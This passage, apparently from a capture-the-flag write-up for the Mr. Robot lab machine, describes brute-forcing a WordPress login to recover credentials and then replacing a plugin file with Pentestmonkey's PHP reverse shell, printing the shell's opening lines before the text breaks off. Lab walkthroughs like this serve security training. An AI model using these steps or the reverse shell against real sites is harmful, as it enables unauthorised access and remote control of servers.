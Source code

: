 ![image](https://user-images.githubusercontent.com/114166939/228576952-9745cae1-ac99-4120-92df-2e3a65ec6643.png)

Start attack!

![image](https://user-images.githubusercontent.com/114166939/228577916-64866e2a-ca0f-4022-b0d8-48fe6c6fce0d.png)

The length of all packets are 4069 except one packet which is 4120. This packet is the username "Elliot".

When I'm trying to log in with these username, I'm getting a different error message, so I can conclude it is a valid user name.

![image](https://user-images.githubusercontent.com/114166939/228579461-318ec399-9cc7-41be-9906-63641f37d33a.png)

Now, I'll try to brute-force this login page again with "fsocity.dic" word-list but brute force only the password of "Elliot" user.

![image](https://user-images.githubusercontent.com/114166939/228581127-e1892208-3a02-457b-99ef-6fa44232fadf.png)

Start attack!

![image](https://user-images.githubusercontent.com/114166939/228583178-de04239f-2b85-40dc-8f67-1d8755994c3c.png)

The length of all packets are 4120 except one packet which is 1077. This packet is the password of the user "Elliot",
I will conclude the password is "ER28-0652".

I'll log-in with the credentials I found:

![image](https://user-images.githubusercontent.com/114166939/228583963-df63ea47-fb35-4b6f-8f7d-a2a8193eb4dc.png)

Let's try to edit a plugin:

![image](https://user-images.githubusercontent.com/114166939/228584166-f2b68ef8-dbc3-4c49-995f-4f7d7f513584.png)

I'll select "WPtouch Mobile Plugin" and "wptouch/core/admin-render.php".

There is an "update file" option on this plugin and it's written in php:

![image](https://user-images.githubusercontent.com/114166939/228585503-2f5ce6ec-796c-4912-9168-c67c57a39246.png)

I can delete it all and put a php reverse shell code instead!
I'll use Pentestmonkey's reverse shell:

```php
  <?php
  // php-reverse-shell - A Reverse Shell implementation in PHP
  // Copyright (C) 2007 pentestmonkey@pentestmonkey.net

  set_time_limit (0);
  $VERSION = "1.0";
  $ip = '[MY-IP]';  // You have to change this
  $port = 6666;  // And this
  $chunk_size = 1400;
  $write_a = null;
  $error_a = null;
  $shell = 'uname -a; w; id; /bin/sh -i';
  $daemon = 0;
  $debug = 0;

  //
  // Daemonise ourself if possible to avoid zombies later
  //

  // pcntl_fork is hardly ever available, but will allow us to daemonise
  // our php process and avoid zombies.  Worth a try...
  if (function_exists('pcntl_fork')) {
```